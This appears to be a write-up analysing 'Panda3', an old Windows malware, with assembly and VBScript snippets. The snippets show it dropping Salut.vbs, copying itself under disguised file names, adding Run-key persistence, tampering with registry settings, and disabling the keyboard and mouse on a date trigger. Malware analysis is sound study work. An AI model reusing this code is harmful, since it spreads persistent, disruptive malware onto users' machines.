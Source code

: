 
**Panda3 Malware**

### Introduction

Panda3 is an assembly-based Windows malware that creates and executes a Visual Basic Script (VBS) file named **Salut.vbs**. It also modifies system registry entries, changes the default Internet Explorer homepage, and, under specific conditions, disables input devices while executing a program.

### Code Breakdown

The malware performs the following steps:

#### 1. Creating the Malicious File

The malware creates a file named **Salut.vbs** at `C:\Salut.vbs` using Windows API calls:

-   `CreateFileA` to create the file
    
-   `WriteFile` to write malicious content
    
-   `CloseHandle` to close the file handle
    

**Code snippet:**

```assembly
FICHIER: push 00h
        push 80h
        push 02h
        push 00h
        push 01h
        push 40000000h
        push offset nom_fichier  ; Filename: C:\Salut.vbs
        call CreateFileA
        mov  [flz_handle],eax
        push 00000000h
        push offset octets
        push offset taille
        push offset DEBUTV
        push [flz_handle]
        call WriteFile
        push [flz_handle]
        call CloseHandle
```

#### 2. Content of Salut.vbs

The **Salut.vbs** script:

-   Copies itself to the Windows and System folders under new names (`WSock32.dll.vbs` and `PandaDwarf.txt.vbs`).
    
-   Modifies the Windows registry to change the Internet Explorer homepage.
    
-   Adds an autorun entry to execute `WSock32.dll.vbs` on startup.
    
-   Deletes itself from `C:\Salut.vbs` after execution.
    

**VBS Code snippet:**

```assembly
Sub DEBUT()
Set a = CreateObject("Scripting.FileSystemObject")
Set win = a.GetSpecialFolder(0)
Set sys = a.GetSpecialFolder(1)
Set c = a.GetFile(WScript.ScriptFullName)
c.Copy(win & "\WSock32.dll.vbs")
c.Copy(sys & "\PandaDwarf.txt.vbs")
INTERNET()
BUG2001()
Set T = a.deletefile("C:\Salut.vbs")
End Sub
```

#### 3. Registry Modifications

The malware modifies the registry in two ways:

1.  **Changes RegisteredOwner Information**
    
    -   It writes "PandaKiller" into the `RegisteredOwner` field in the Windows registry.
        
2.  **Modifies Internet Explorer Settings & Startup Programs**
    
    -   It changes the default homepage to `http://www.penthouse.com`.
        
    -   It adds `WSock32.dll.vbs` to autorun at startup.
        

**Registry modification code:**

```assembly
REGISTRE: push offset l
          push offset p
          push 0
          push 1F0000h + 1 + 2h
          push 0
          push 0
          push 0
          push offset CLE
          push 80000002h  ; HKEY_LOCAL_MACHINE
          call RegCreateKeyExA
          push 05h
          push offset DONNEE  ; "PandaKiller"
          push 01h
          push 0
          push offset NOM  ; "RegisteredOwner"
          push p
          call RegSetValueExA  ; Modifies registry
          push 0
          call RegCloseKey  ; Closes registry key
```

#### 4. Additional Malicious Actions in 2001

If the system's year is 2001, the malware:

-   Disables the keyboard and mouse using `rundll32`.
    
-   Launches `Winmine.exe` (Windows Minesweeper).
    

**VBS Code snippet:**

```vbscript
Sub BUG2001()
If Year(Now) = 2001 Then
   Dim P
   Set P = Wscript.CreateObject("WScript.Shell")
   P.RegWrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Run\Stop1", "rundll32,mouse disable"
   P.RegWrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Run\Stop2", "rundll32,keyboard disable"
   P.run ("C:\WINDOWS\Winmine.exe")
End If
End Sub
```

#### 5. User Interaction

The malware displays two message boxes to the user:

-   **First Message:** "Salut! Ca va?" (Hello! How are you?)
    
-   **Second Message:** "A file has been placed on your computer. It is named Salut.vbs and is located in C:. Open it quickly!"
    

**Code snippet:**

```assembly
MESSAGE: push 40h
         push offset TITRE
         push offset TEXTE
         push 0
         call MessageBoxA
         push 40h
         push offset TITRE2
         push offset TEXTE2
         push 0
         call MessageBoxA
```

### Malware Impact

1.  **Persistence & Execution:** The malware ensures it executes on every system startup.
    
2.  **Registry Tampering:** It modifies system registry settings, changing the registered owner and default homepage.
    
3.  **Data Duplication:** The malware replicates itself in critical system folders.
    
4.  **Self-Deletion:** It removes its original copy from `C:\Salut.vbs` to evade detection.
    
5.  **User Disruption:** If the year is 2001, it disables the keyboard and mouse while launching a game.
    

### Conclusion

Panda3 is a multi-stage malware designed to establish persistence, alter system settings, and disrupt user operations. While relatively simple by modern standards, it demonstrates early techniques used in malware propagation and registry abuse.
